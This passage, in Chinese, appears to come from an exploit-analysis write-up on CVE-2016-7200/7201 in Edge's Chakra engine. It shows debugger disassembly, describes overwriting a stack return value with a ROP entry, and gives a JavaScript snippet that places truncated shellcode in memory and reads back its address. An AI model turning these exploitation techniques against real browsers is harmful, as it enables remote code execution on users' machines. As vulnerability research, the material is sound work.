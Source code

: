 因为这个值是调用函数chakra!ScriptSite::Execute的返回值，后面会使用ROP entry来覆盖这个栈上的值，实现Direct Return。

<pre>
<code>
0:012> ub chakra+0x162A1D
chakra!ScriptEngine::ExecutePendingScripts+0x182:
00007ff9`6b1529fa 48895c2468      mov     qword ptr [rsp+68h],rbx
00007ff9`6b1529ff 488d442458      lea     rax,[rsp+58h]
00007ff9`6b152a04 4889442420      mov     qword ptr [rsp+20h],rax
00007ff9`6b152a09 4533c9          xor     r9d,r9d
00007ff9`6b152a0c 4c8d442460      lea     r8,[rsp+60h]
00007ff9`6b152a11 498bd7          mov     rdx,r15
00007ff9`6b152a14 488b4f20        mov     rcx,qword ptr [rdi+20h]
00007ff9`6b152a18 e8f3f10400      call    chakra!ScriptSite::Execute (00007ff9`6b1a1c10)

0:012> u chakra+0x162A1D
chakra!ScriptEngine::ExecutePendingScripts+0x1a5:
<b><font color="red">00007ff9`6b152a1d</font></b> 448bf0          mov     r14d,eax
00007ff9`6b152a20 85c0            test    eax,eax
00007ff9`6b152a22 7820            js      chakra!ScriptEngine::ExecutePendingScripts+0x1cc (00007ff9`6b152a44)
00007ff9`6b152a24 488b8424e8000000 mov     rax,qword ptr [rsp+0E8h]
00007ff9`6b152a2c 4885c0          test    rax,rax
00007ff9`6b152a2f 7413            je      chakra!ScriptEngine::ExecutePendingScripts+0x1cc (00007ff9`6b152a44)
00007ff9`6b152a31 488bd0          mov     rdx,rax
00007ff9`6b152a34 488b4c2458      mov     rcx,qword ptr [rsp+58h]
</code>
</pre>

### 看看shellcode的信息

```JavaScript
var sc = unescape("%u8148%u78ec%u0001%u4c00%u848d%u6824%u0001%u4800…”);
print_address_64("shellcode", shi, slo);
var [shi, slo] = PutDataAndGetAddr(sc);
var shcodeAddr = Read64((new Long(slo|0, shi|0, true).add(0x20)));
alert("shcodeAddr: 0x" + shcodeAddr.toString(16));
```

![](images/CVE-2016-7200_CVE-2016-7201/6_shellcode_address.png)

```
0:026> dq 2096d0d3540
00000209`6d0d3540  00007ff9`6b571390 00000209`6cf04450
00000209`6d0d3550  00000000`00000000 00000000`0000035e
00000209`6d0d3560  00000209`6d03c038 00001434`0000035e
00000209`6d0d3570  00000001`ffffffff 00000209`6d03c020
00000209`6d0d3580  00000000`0000001a 00000209`6cf20000
00000209`6d0d3590  00000209`6cf04240 00007ff9`6b2615a0
00000209`6d0d35a0  00000000`00000000 00000209`6d0d3600
00000209`6d0d35b0  00000000`00000000 00000209`6d0a1200
```
